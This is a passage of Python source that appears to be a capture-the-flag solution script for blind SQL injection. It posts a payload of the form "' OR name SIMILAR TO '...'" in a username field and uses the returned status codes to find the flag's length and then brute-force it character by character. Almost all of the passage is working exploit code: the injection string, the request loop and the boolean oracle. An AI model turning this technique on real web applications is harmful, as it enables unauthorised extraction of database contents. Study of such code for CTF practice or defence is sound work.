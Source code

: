 ```python
            }
            
            response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
            isFailed = True if response.status_code == 201 else False
            if isFailed:
                continue
            if length == self.EXCLUDED_NAMES_LENGTH[0] or length == self.EXCLUDED_NAMES_LENGTH[1]:
                if length == self.EXCLUDED_NAMES_LENGTH[0]:
                    print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name "{self.EXCLUDED_NAMES[0]}"')
                elif length == self.EXCLUDED_NAMES_LENGTH[1]:
                    print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name "{self.EXCLUDED_NAMES[1]}"')

                continue

            return length

    def leakFlagData(self, flagStringLength):
        leakedFlag, formattedFlag = str(), str()
        while len(formattedFlag) < flagStringLength:
            formattedFlag = self.PREPENDED_FLAG + leakedFlag + self.APPENDED_FLAG
            if len(formattedFlag) == flagStringLength:
                break

            for character in self.ALLOWED_CHARS:
                print(f'[*] Brute forcing character "{character}" | Current leaked flag: {formattedFlag}', end='\r')

                regexCharacters = leakedFlag + character
                charactersLeft = flagStringLength - self.PREPENDED_FLAG_LENGTH - self.APPENDED_FLAG_LENGTH - len(regexCharacters)

                regexPattern = self.WILDCARD_CHARACTER * self.PREPENDED_FLAG_LENGTH
                regexPattern += regexCharacters
                regexPattern += self.WILDCARD_CHARACTER * charactersLeft
                regexPattern += self.WILDCARD_CHARACTER * self.APPENDED_FLAG_LENGTH

                payload = f"' OR name SIMILAR TO '{regexPattern}"
                data = {
                    'username': payload
                }
                response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
                isFailed = True if response.status_code == 201 else False
                isLastCharacter = True if character == self.ALLOWED_CHARS[-1] else False
                isFailedLastCharacter = True if isFailed and isLastCharacter else False

                # if we loop through all possible character and still failed, 
                # we can assume that the correct flag character is the underscore character
                if isFailedLastCharacter:
                    leakedFlag += self.WILDCARD_CHARACTER
                    break

                if isFailed:
                    continue

                leakedFlag += character
                break

        isLeakedSuccessfully = False
        if len(formattedFlag) != flagStringLength:
            return isLeakedSuccessfully, formattedFlag

```